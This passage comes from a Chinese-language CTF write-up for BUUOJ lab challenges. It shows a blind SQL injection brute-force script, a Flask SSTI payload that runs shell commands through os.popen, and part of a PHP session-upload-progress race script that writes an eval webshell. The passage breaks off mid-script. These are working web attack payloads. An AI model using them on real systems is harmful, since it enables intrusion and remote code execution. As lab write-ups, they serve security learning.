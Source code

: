 ```python
        time.sleep(0.2)
        payload = '/**/||/**/passwd/**/regexp/**/"^{}";%00'.format(flag + s)
        print(s)
        res = requests.post(url,data='username=123\\&passwd=' + payload, headers=headers, allow_redirects=False)
        if 'alert(' not in res.text:
            flag += s
            print('FOUND!!!',flag)
            break
```

跑出来结果是 `you_will_never_know7788990`

提交后得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211749067.png)

## [RootersCTF2019]I_<3_Flask

简单 ssti

```
http://011d25fa-762b-4cd9-a1d8-b4dd5b395707.node4.buuoj.cn:81/?name={{config.__class__.__init__.__globals__['os']['popen']('cat flag.txt').read()}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211802475.png)

## [NPUCTF2020]ezinclude

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211924594.png)

发现 hash 会随着用户名改变而改变, 然后根据下面的注释将 hash 填到 pass 里重新提交

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211925046.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211925331.png)

文件包含, 试了下常规的日志路径都不行, 于是尝试利用 session\_upload\_progress 进行包含

```python
import threading
import requests

target = 'http://1bc9083e-6533-47ba-8a6c-3edc3b051e00.node4.buuoj.cn:81/flflflflag.php'
flag = 'hello'

def upload():
    files = [
        ('file', ('xx.txt', 'xxx'*10240)),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': "<?php file_put_contents('/tmp/xzxzxz', '<?php eval($_REQUEST[1]);phpinfo();?>');?>"}

    while True:
        res = requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )

def write():
    while True:
        response = requests.get(
```
